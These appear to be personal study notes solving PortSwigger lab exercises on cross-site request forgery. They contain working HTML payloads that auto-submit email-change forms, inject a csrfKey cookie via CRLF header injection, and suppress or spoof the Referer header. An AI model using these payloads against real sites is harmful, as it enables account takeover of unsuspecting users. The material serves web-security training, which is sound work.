 Cross-site request forgery (CSRF)
https://portswigger.net/web-security/csrf

<!-- 1. Lab: CSRF vulnerability with no defenses -->
https://portswigger.net/web-security/csrf/lab-no-defenses

goal:
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

1. do the process of login and changing email to establish request format and syntax - send request to repeater:
POST /my-account/change-email HTTP/1.1\
Host: 0aa700d004d14148c0977450001c00a8.web-security-academy.net
Cookie: session=yCKgkq71rWvYSZOkOdEht0vvA2kdgiS3
..

email=attacker%40gmail.com


2. create a form on the server with the url from stage 1 - to be sent in clients behalf when he enters the maliocious site:
<html>
    <body>
        <form action="URL" method="POST">
            <input type="hidden" name="email" value="email@new.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

3. final payload: 
#
  <html>
    <body>
        <form action="https://0aa700d004d14148c0977450001c00a8.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


if site supports GET it can be done in a single line (without need for a site):
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">





<!-- 2. Lab: CSRF where token validation depends on request method -->
https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 
smae as last lab - just change requets to GET:

1. do the process of login and changing email to establish request format and syntax - send request to repeater:
POST /my-account/change-email HTTP/1.1\
Host:0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net
..
email=attacker@gmail.com

2. change to GET method and copy url:
https://0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net/my-account/change-email?email=attacker@gmail.com


3. use this template:
<html>
    <body>
        <form method="GET" action="URL">
            <input type="hidden" name="email" value="email@new.com">
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>

# final payload:

<html>
    <body>
        <form method="GET" action="https://0a3a009803bd4ed7c0a6186c000500e5.web-security-academy.net/my-account/change-email?email=attacker@gmail.com">
            <input type="hidden" name="email" value="blablabla" />
        </form>
        <script>
                document.forms[0].submit();
        </script>
    </body>
</html>


<!-- 3. Lab: CSRF where token validation depends on token being present -->
https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.


ommit the CSRF header in exploit site it as if it has no csrf (pretty dumb application of the CSRF):
<html>
    <body>
        <form action="https://0a27009a045fca44c096adf700fd0027.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>!

<!-- 4. Lab: CSRF where token is not tied to user session -->
https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session


To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 

1. login and send request to change email - get 302 and send to repeater. try to resend the req from the reapeter and get 400 "Invalid CSRF token"
now we know its a 1-time token

2. intercept and catch 3 requests to reapeter for further analasys. open incognito window, sign in and do the same for carlos. make sure you drop each messege after sending to the repeater

3. try to use unused token of peter on peter old request to check coralation between session and toke. do it also for token from carlos on session of peter (or vice versa)
now we know no coralation exist we can use our token with any other user seesion

4. prepare html POST form with email and cdrf values. make sure to use only unsused token. test exploit on yourself. once successed - replce token with unused token and send it to victim.

working exploit:

<html>
    <body>
        <form action="https://0a2500e603186d67c02c0121009f009e.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="attacker@gmail.com" />
            <input type="hidden" name="csrf" value="Raj0C3E8iKUphSJxB587fdoYsYIxwTrt" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


<!-- 5.Lab: CSRF where token is tied to non-session cookie -->
https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie


1. change csrf value - 400 "Invalid CSRF token"
2. change csrfKey value - 400 "Invalid CSRF token"
csrf values are paired
3. change session value - 302 login to new session
probably not related to csrf values
4. login to carlos in incognito mode send email-change request to repeater. 
5. use carlos csrf with peter csrfKey - 400 "Invalid CSRF token"
6. use peter csrf value pair on carlos session - 302 found
check at my account page to make sure it changed.
7. look for "Set-Cookie" HEADER in site responses: find set-cookie reflected on response to: GET /?search=bla HTTP/1.1  -->send to repeater
8. craft HEADER-injecting payload using %0d%0a (\r\n) which will be parsed into:
    ?search=bla \r\n
    set-cookie: csrfKey={csrfKey value}
final cookie-injecting payload:
/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP
10. test on repeter - 400 "Potentially dangerous search term". request in browser and see csrf cookie added with injected value
11. craft <img> tag to force-visit the cookie-loading link and execute onerror-submition of the form:
<img src="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP" onerror="document.forms[0].submit()">

12. craft html on exploit. make sure to use a paired csrf and csrfKey values:

<html>
    <body>
        <form method="POST" action="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="evil@new.com" />
            <input type="hidden" name="csrf" value="I3cdY6uXw5SWiE2FbnphGtw7GO2V2wH1" />
        </form>
        <img src="https://0ac200de030c4653c0b2248d00a500a7.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=gTJ5CEmATdd8sGCwH4Uo3NgqEd4uo7xP" onerror="document.forms[0].submit()">
    </body>
</html>


    
<!-- 6. Lab: CSRF where token is duplicated in cookie -->
https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie

1. check relation between csrf and csrfKey, check if any string will work as long as it will be identical between the 2 param

2. find set-cookie injection point and craft url:
https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrfKey=amotzrules

3. craft malicious site at exploit server:

<html>
    <body>
        <form action="https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="success@gmail.com" />
            <input type="hidden" name="csrf" value="amotzrules" />
            <input type="submit" value="submit request" />
        </form>
        <img src="https://0a5500bd03baf0c5c079115e00af0056.web-security-academy.net/?search=bla%0d%0aSet-Cookie:%20csrf=amotzrules" onerror="document.forms[0].submit()">
    </body>
</html>

note2self: not like lab 5 - there is no csrfKey - just csrf in both locations...

<!-- 7. Lab: CSRF where Referer validation depends on header being present -->
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

goal:
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

research refferer HEADER manipulation yeilds the following command:
<head>
<meta name="referrer" content="never">
</Head>


lets use it inside our exploit center with the form format of the previouse lab:
<html>
    <head>
        <meta name="referrer" content="never">
    </Head>
    <body>
        <form action="https://0a31004204da258bc0af6329003a00be.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


lab specific materials:
https://www.w3schools.com/tags/tag_meta.asp // what is <meta> tag
https://wiki.whatwg.org/wiki/Meta_referrer //  types of meta referrer commands:
The referrer metadata attribute can have one of four values for its content attribute:
    never
    always
    origin
    default


also:
https://moz.com/blog/meta-referrer-tag#How%20to%20use%20the%20meta%20referrer%20tag
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy


<!-- 8. Lab: CSRF with broken Referer validation -->
https://portswigger.net/web-security/csrf/lab-referer-validation-broken

goal:
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. 

1. test referer HEADER limitition: what is the shortest version of the url, does it need to be on the start or the end, 

original:
Referer: https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account
302 found
0a5b00e7045ec019c01c1622000300c5.web-security-academy.net
302 found
https:google.com#https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net
302 found

command to use:
History.pushState()
https://developer.mozilla.org/en-US/docs/Web/API/History/pushState
In an HTML document, the history.pushState() method adds an entry to the browser's session history stack. 
craft to add the referrer url to the HEADER:
<script>
        history.pushState("", "", "/?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net")
</script>


lets craft our final html payload on the exploit server:

<html>
    <script>
        history.pushState("", "", "/?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net")
    </script>
    <body>
        <form action="https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>


important:
since browser ommit the strings after the "?" as default, lets add the refferer policy to force using the full url. we will insert it on the Head section:

Referrer-Policy: unsafe-url


#
unsuccessful tries:
worked on peter account - didnt work on victim: 

File:
/exploit?0a5b00e7045ec019c01c1622000300c5.web-security-academy.net

Head:
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

Body:
<html>
    <head>
        <meta name="referrer" content="always">
    </Head>
    <body>
        <form action="https://0a5b00e7045ec019c01c1622000300c5.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="chang2@evil.com" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>



###############################3333

general materials:
Defending against CSRF with SameSite cookies
https://portswigger.net/web-security/csrf/samesite-cookies

CSRF tokens
https://portswigger.net/web-security/csrf/tokens

XSS vs CSRF
https://portswigger.net/web-security/csrf/xss-vs-csrf
